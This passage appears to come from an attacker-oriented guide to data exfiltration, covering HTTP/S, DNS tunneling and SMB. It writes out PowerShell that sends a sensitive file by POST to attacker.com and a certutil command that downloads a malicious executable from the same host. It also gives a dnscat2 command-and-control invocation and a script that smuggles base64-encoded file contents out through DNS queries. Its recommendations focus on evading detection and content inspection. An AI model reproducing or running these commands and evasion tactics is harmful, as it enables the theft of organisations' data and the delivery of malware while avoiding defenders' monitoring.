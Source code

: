     Command Examples:

        Using PowerShell:

        powershell

$data = Get-Content C:\SensitiveData.txt
$url = "https://attacker.com/upload"
$body = @{data = $data}
Invoke-WebRequest -Uri $url -Method POST -Body $body

Using Certutil:

bash

        certutil.exe -urlcache -split -f https://attacker.com/malicious_payload.exe C:\Users\Public\malicious_payload.exe

    Recommendations:
        Use HTTPS to encrypt the data and bypass content inspection.
        Mimic legitimate web application traffic to evade detection.

B. DNS Tunneling

Description: DNS tunneling involves encoding data within DNS queries and responses. This method is stealthy because DNS traffic is usually allowed through firewalls and not scrutinized as closely as other types of traffic.

    Tools:
        dnscat2: A tool that creates a command-and-control (C2) channel over DNS.
        Custom scripts using Python with DNS libraries.
        IODINE: A DNS tunneling tool that can be used for exfiltration.

    Command Examples:

        Using dnscat2:

        bash

dnscat2.exe --domain exfil.example.com

Custom PowerShell DNS Exfiltration:

powershell

        $data = Get-Content C:\SensitiveData.txt
        $encoded = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($data))
        $domain = $encoded + ".attacker.com"
        Resolve-DnsName $domain

    Recommendations:
        Fragment data into small chunks to avoid detection by DNS inspection tools.
        Use subdomains to represent data and maintain normal-looking DNS queries.

C. SMB Protocol

Description: The Server Message Block (SMB) protocol is used for sharing files, printers, and serial ports. Attackers can use SMB to transfer data from the target system to an external server.

    Tools:
        PsExec: A Windows Sysinternals tool that can execute processes remotely.
        PowerShell with SMB commands.
        Impacket: A collection of Python classes for working with network protocols.
